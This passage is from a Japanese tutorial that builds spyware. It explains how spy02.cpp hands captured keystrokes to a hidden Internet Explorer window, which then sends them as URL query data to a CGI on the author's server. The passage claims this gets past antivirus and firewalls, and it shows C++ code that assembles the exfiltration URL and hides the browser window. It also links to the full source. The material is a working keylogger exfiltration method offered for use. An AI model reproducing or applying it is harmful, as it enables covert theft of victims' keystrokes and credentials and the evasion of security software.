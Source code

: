                  +-----------------------------------+
                 | HTTPサーバ（データを保存するCGI） |
                 +-----------------------------------+

                                        ↑（接続する）

+---------------------+（生成）+---------------------+
| spyware (spy02.cpp) |------->|  Internet Explorer  |
+---------------------+        +---------------------+
（プロセス１）                 （プロセス２）
                                               （図２）

　spy01.cppはプログラムの中でHTTPを利用してアクセスしてましたがspy02.cpp
はCGIへのアクセス処理自体をＩＥに任せます。よって送信したいデータ（キー
ログ）はすべてＩＥに渡すことになります。そしてもちろんＩＥのWindowは非表
示とします。これによって内部でＩＥが起動しこっそりと情報をサーバに送信す
るスパイウェアの完成です。たとえアンチウイルスソフトやファイヤーウォール
が外部への情報漏れをとめようとしても、ＩＥを利用しているならばそう簡単に
防ぐことはできないでしょう。おそらくファイヤーウォールは貫通するはずです。
なぜならＩＥを利用しているということは普通にブラウザでインターネットを閲
覧している状態と変わらないのですから。

+--- spy02.cpp ------------------------------+
| http://kenjinet.s26.xrea.com/spy/spy02.cpp |
+--------------------------------------------+

　接続処理を担当するServConnect関数はなくなりました。かわりにSendLogData
関数が長くなりました。

-----
BOOL SendLogData(char *MainMemory, UINT len)
{
    int SendAllDataLen;
    SendAllDataLen  = (int)strlen(PRGRM_NAME);
    SendAllDataLen += (int)strlen(HOST_NAME);
    SendAllDataLen += (int)strlen(FILE_PATH);
    SendAllDataLen += len;

    char *SendAllData = new char[SendAllDataLen + 16];

    wsprintf(SendAllData,
        "%s http://%s%s?%s\r\n",
        TEXT(PRGRM_NAME), TEXT(HOST_NAME),
        TEXT(FILE_PATH), MainMemory);
-----

　SendAllDataが実行すべき文字列になります。まず、ＩＥの絶対パス、空白を
はさんで第一引数に「http://ホスト/パス?送信したいデータ」となります。サ
ーバにおいている保存を受け持つCGIはsave.cgiです。

-----
    STARTUPINFO SI;
    ZeroMemory(&SI, sizeof(SI));
    SI.cb          = sizeof(SI);
    SI.dwFlags     = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    SI.wShowWindow = SW_HIDE;
